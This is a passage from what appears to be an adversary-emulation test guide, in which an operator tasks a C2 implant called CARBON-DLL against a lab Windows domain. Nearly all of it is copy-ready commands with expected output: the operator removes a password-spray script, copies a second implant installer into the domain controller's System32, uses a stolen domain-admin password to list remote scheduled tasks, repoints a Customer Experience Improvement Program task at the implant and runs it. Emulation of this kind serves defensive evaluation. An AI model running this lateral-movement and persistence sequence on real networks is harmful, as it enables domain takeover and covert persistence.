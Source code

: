 * Wait 1 minute and then task CARBON-DLL to remove the password spray script.
```bash
./evalsC2client.py --set-task 9b5ef515  '{"id": 2, "cmd": "del /Q C:\\Windows\\Temp\\winsas64.bat"}'
```

* Wait 1 minute and then task CARBON-DLL to download a second version of the CARBON-DLL installer and move it to the `System32` folder
on the DC via the mounted drive.

```bash
./evalsC2client.py --set-task 9b5ef515 '{"id": 3, "payload": "carbon_installer_2.exe", "payload_dest": "C:\\Windows\\Temp\\wmimetricsq.exe", "cmd": "move C:\\Windows\\Temp\\wmimetricsq.exe \\\\bannik\\C$\\Windows\\System32"}'
```

* Wait 1 minute and then task CARBON-DLL to enumerate remote scheduled tasks on
the domain controller, using the discovered password for the domain admin
`Frieda`

```bash
./evalsC2client.py --set-task 9b5ef515 '{"id": 4, "cmd": "schtasks /query /S bannik /U skt\\Frieda /P Password3!"}'
```

* :exclamation: Verify that the `Consolidator` task under the `\Microsoft\Windows\Customer
Experience Improvement Program\` task folder appears in the output.

```bash
grep 'Folder: \\Microsoft\\Windows\\Customer Experience Improvement Program' logs.txt -A 5 -i
```

* This should return:
  * >    ```
    >    Folder: \Microsoft\Windows\Customer Experience Improvement Program
    >    TaskName                                 Next Run Time          Status         
    >    ======================================== ====================== ===============
    >    Consolidator                             2/24/2023 12:00:00 AM  Ready          
    >    UsbCeip                                  N/A                    Ready      
    >    ```

* Wait 1 minute and then task CARBON-DLL to modify a remote scheduled task using the discovered password for the domain
admin `Frieda` (<https://www.cisa.gov/uscert/ncas/analysis-reports/ar20-303a>).

```bash
./evalsC2client.py --set-task 9b5ef515 '{"id": 5, "cmd": "schtasks /Change /S bannik /U skt\\Frieda /P Password3! /TN \"\\Microsoft\\Windows\\Customer Experience Improvement Program\\Consolidator\" /TR %SystemRoot%\\System32\\wmimetricsq.exe"}'
```

* Wait 1 minute and then task CARBON-DLL to remotely start the modified scheduled task on the domain controller.

```bash
./evalsC2client.py --set-task 9b5ef515 '{"id": 6, "cmd": "schtasks /Run /S bannik /U skt\\Frieda /P Password3! /TN \"\\Microsoft\\Windows\\Customer Experience Improvement Program\\Consolidator\" /I"}'
```
